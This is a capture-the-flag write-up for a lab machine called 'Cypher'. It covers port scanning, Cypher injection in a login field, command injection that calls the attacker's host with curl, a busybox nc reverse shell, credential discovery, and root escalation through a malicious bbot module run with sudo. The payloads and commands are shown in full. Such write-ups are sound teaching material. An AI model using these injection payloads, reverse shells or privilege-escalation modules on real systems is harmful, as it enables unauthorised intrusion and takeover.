- Machine Name: Cypher
- OS Type: Linux
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Mon Jun 23 18:29:46 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.57
Nmap scan report for 10.10.11.57
Host is up, received echo-reply ttl 63 (0.21s latency).
Scanned at 2025-06-23 18:29:53 IST for 79s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 23 18:31:12 2025 -- 1 IP address (1 host up) scanned in 86.11 seconds
```

## Enumeration

### Port 80/HTTP

open URL in firefox and i redirected to cypher.htb



we don’t have added cypher.htb to /etc/hosts file so it will not able to find that site, let’s add the domain to /etc/hosts file

```php
	echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

and then refresh the page



hovering on button we found that it will redirect to cypher.htb/demo



clicking on it we redirected to login page so looks like first we need to login in order to access demo page



reading the source of main page i found possibly interesting HTML comment



let’s keep this info for now and move to directory bruteforcing



/testing directory looks fine, let’s check it out



let’s download it and unzip the jar file and see if we can find anything interesting



looks like many things related to neo4j, and the machine name itself cypher which refers to cypher injection

### What is Cypher?

- Cypher is short for Cypher Query Language
- It’s Neo4j’s Graph query language that let’s you retrieve data from the graph, it’s like SQL for Graph database

now testing using basic payload

```php
' or 1=1 RETURN c//
```



and other side we got the error message that confirms that the, after some trial-error i figured-out that the username field is looks vulnerable

i tried different payloads to get the credentials but not successful, let’s examine the jar file properly, i’ll use JD-GUI to decompile the jar file

[https://github.com/java-decompiler/jd-gui/releases/download/v1.6.6/jd-gui-1.6.6.jar](https://github.com/java-decompiler/jd-gui/releases/download/v1.6.6/jd-gui-1.6.6.jar)



reading this CustomFunctions.class code looks like it is doing some curl request but we can see that it is  just adding the url variable value so possibly we can pass `;`  with another command to get Command execution

after some trial and error i came up with below query i took some refernces and even hints 



this confirms execution on our side



now i want to confirm that target machine has busybox present or not to do so i used the curl

```php
admin' RETURN h.value AS hash UNION  CALL custom.getUrlStatusCode(\"http://10.10.14.12/0xh3x; curl http://10.10.14.12:8000/?`which busybox`\") YIELD statusCode AS hash RETURN hash;//
```

and on http server running on port 8000 i got the output of `which busybox` command 



let’s get the shell now

```php
busybox nc 10.10.14.12 443 -e /bin/bash
```



after gaining shell i use below python one-liner to upgrade the shell

```php
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

then i am enumerating system  for useful information and found there’s `graphasm` user and found the credentials of that user in `/home/graphasm/bbot_preset.yml` 



let’s `su graphasm`



i’ll login using SSH for better and stable shell, then i ran the `sudo -l` command to check the sudo permissions



let’s check if we have write permissions to `/usr/local/bin/bbot` 



uppon searching on google i found that we can run arbitrary code in bbot using preset

[https://github.com/Housma/bbot-privesc/](https://github.com/Housma/bbot-privesc/)

we need two files

***preset.yml***

```php
description: System Info Recon Scan
module_dirs:
  - .
modules:
  - systeminfo_enum
```

and other file is

***systeminfo_enum.py***

```php
from bbot.modules.base import BaseModule
import pty
import os

class systeminfo_enum(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "System Info Recon (actually spawns root shell)"}

    async def setup(self):
        self.hugesuccess("📡 systeminfo_enum setup called — launching shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"❌ Shell failed: {e}")
        return True
```

and run it using sudo

```php
sudo bbot -p ./perset.yml
```

